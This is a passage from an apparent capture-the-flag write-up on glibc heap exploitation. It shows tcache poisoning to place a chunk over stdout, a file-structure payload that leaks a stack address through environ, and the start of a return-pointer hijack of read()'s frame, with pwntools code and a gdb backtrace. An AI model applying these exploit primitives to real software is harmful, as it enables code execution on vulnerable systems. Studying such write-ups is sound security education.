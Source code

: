 Finally, we need to make sure that we don’t break `stdout` in the future, since we plan to move it’s read and write buffers onto the stack, instead of libc. After it writes, it sets the `write_base` and `write_ptr` to `_buf_base`, and it sets `write_end` to either `_buf_base` or `_buf_end`, depending on the `_IO_LINE_BUF` or `_IO_UNBUFFERED` flag.

So, we’re ready to write to the `stdout` file pointer:

- Set `stdout->flags = _IO_MAGIC | (~_IO_NO_WRITES) | IO_IS_CURRENTLY_PUTTING | _IO_IS_APPENDING`
- Set `stdout->_IO_write_base` to `&environ`, to make that our buffer.
- Set `stdout->_IO_write_ptr = stdout->_IO_write_end = _IO_buf_end` to be `&environ+8`, to make our buffer non zero and just print out the stack leak.

The full payload is assembled:

```py
p64(0xfbad1800) + #flags
p64(environ)*3 + #read_ptrs, dont matter
p64(environ) +  #write_base
p64(environ + 0x8)*2 + #write_ptr and end
p64(environ + 8) + # buf_base
p64(environ + 8) # buf_end
```

Again, thanks to ret2school for detailing this. What were we doing? Right, stack leak

Now, we can get the stack:

```py
#symbols
environ = libc.symbols['environ']
stdout = libc.symbols['_IO_2_1_stdout_']
# prior botcake exploit, we make the next chunk return the location of stdout
alloc(1, 0x230, b'T'*0x208 + p64(0x211) + p64((stdout ^ ((heap + 0x3320) >> 12))))
alloc(2, 0x200, 'X')
# We write out stdout payload
alloc(3, 0x200, p64(0xfbad1800) + p64(environ)*3 +
(environ) + p64(environ + 0x8)*2 + p64(environ + 8) + p64(environ + 8))
# When printf("> ") happens at the start of the while loop, the buffer is flushed, and our stack address gets printed out first! No newline required.
stack = u64(r.recv(8)[:-1].ljust(8, b'\x00'))
```

## FSOP? I Like ROP. <a name="rop"></a>

With a proper stack address, we can now forge a chunk to be given to us located within the stack, and overwrite return pointers to hijack control flow. Ah... but _where_? The main function doesn’t actually return, it exits. What we can do is kind of silly, but instead of overwriting main’s stack frame, we’ll overwrite the stack frame of whatever lib function calls `read()`. That way, when we return from the read call after allocing a chunk, we instead return to our own control flow.

If we look at gdb, we can see our backtrace up to the read call:

```c
► f 0   0x7fedd0f14992 read+18
  f 1   0x7fedd0e8ccb6 _IO_file_underflow+390
  f 2   0x7fedd0e8de16 _IO_default_uflow+54
  f 3   0x7fedd0e63150 __vfscanf_internal+1776
  f 4   0x7fedd0e621c2 __isoc99_scanf+178
  f 5   0x559d76869498 main+375
```
